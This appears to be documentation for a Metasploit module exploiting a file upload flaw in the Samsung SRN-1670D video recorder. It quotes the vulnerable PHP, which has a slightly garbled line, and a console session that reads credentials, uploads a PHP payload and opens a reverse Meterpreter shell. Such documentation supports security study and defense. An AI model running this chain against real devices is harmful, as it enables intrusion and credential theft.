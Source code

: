 ## Description

Samsung NVR Recorder SRN-1670D is a high performance network video recorder. An arbitrary file
upload vulnerability was found in the Web Viewer component, which could allow an authenticated
user to upload a PHP payload to get code exuection. The vulnerable code can be found in
network_ssl_upload.php:

```php
    22 $path = "./upload/";
    23 $file = $_FILES[ "attachFile" ];
    24 $isApply = ( int )$_POST[ "is_apply" ];
    25 $isInstall = ( int )$_POST[ "isInstall" ];
    26 $isCertFlag = ( int )$_POST[ "isCertFlag" ];
    27 
    28 // create socket
    29 $N_message = "";
    30 $sock = mySocket_create($_is_unix_socket);
    31 $connected = mySocket_connect($_is_unix_socket, $sock);
    32 
    33 $loginInfo = new loginInfo();
    34 $retLogin = loginManager( $connected, $sock, null, $loginInfo );
    35 if ( ( $retLogin == true ) && ( $isApply == 2 || $isApply == 3 ) ) {
    36  if ($connected) {
    37   $id = $loginInfo->get_id();
    38   $xmlFile = $id.'_config.xml';
    39   $N_message = "dummy".nvr_command::DELIM;
    40   $N_message .= "userid ".$id.nvr_command::DELIM;
    41   
    42   if ( $isInstall == 1 ) {
    43    // File upload ===============================================================  
    44    if ( $file[ "error" ] 0 ) {
    45     $Error = "Error: ".$file[ "error" ];
    46    } else {
    47     $retFile = @copy( $file[ "tmp_name" ], $path.$file[ "name" ] );
    48    }
    49    // ===========================================================================
    50   }
```

To avoid the need of authentication, the exploit also takes advantage of another vulnerability
(CVE-2015-8279) in the log exporting function to read an aribtrary file from the remote machine
in order to obtain credentials that can be used for the attack.

## Vulnerable Application

Samsung NVR Recorder SRN-1670D is a hardware:

http://www.samsungcc.com.au/cctv/ip-nvr-solution/samsung-dvr-srn-1670d

## Scenario

```
msf exploit(samsung_srv_1670d_upload_exec) > show options 

Module options (exploit/multi/http/samsung_srv_1670d_upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.200      yes       The target address.
   RPORT    80               yes       The target port (TCP).
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.122      yes       The listen address
   LPORT  4358             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samsung SRN-1670D == 1.0.0.193


msf exploit(samsung_srv_1670d_upload_exec) > exploit -j 
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.122:4358 
msf exploit(samsung_srv_1670d_upload_exec) > [*] Obtaining credentails...
[+] Credentials obtained successfully: admin:pass123!
[*] Logging...
[+] Authentication Succeeded
[*] Generating payload[ eRdGKfFJ.php ]...
[*] Uploading payload...
[*] Executing payload...
[*] Sending stage (33986 bytes) to 192.168.1.200
[*] Meterpreter session 3 opened (192.168.1.122:4358 -> 192.168.1.200:55676) at 2017-06-19 11:52:22 +0100
```